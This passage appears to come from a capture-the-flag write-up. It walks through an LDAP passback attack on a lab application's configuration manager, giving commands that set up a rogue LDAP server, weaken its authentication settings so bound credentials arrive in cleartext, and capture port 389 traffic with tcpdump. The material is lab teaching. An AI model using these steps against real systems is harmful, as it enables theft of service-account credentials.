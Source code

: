 it does not seem to work... after some try, i understand that it is necessary to connect with the button "configuration manager"

![FirstAccess](/assets/authority/firstacces.png)

Ok, we are in the application trying to see what we can do, Knowing that this application has a relationship with the LDAP protocol. In the configuration editor menu, we can see that we have a pretty cool handle on the LDAPs server address.
Directly I think of an attack of type LDAP passback attacks, for that we must mount an LDAP server on our attacking machine: 
```
#installer LDAP
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

#create .ldif file for downgrade the server with this content
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred

#downgrade the server 
ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

```
In order to capture ldap requests on our server, we will use TCPdump: 
```
tcpdump -SX -i network_card tcp port 389
```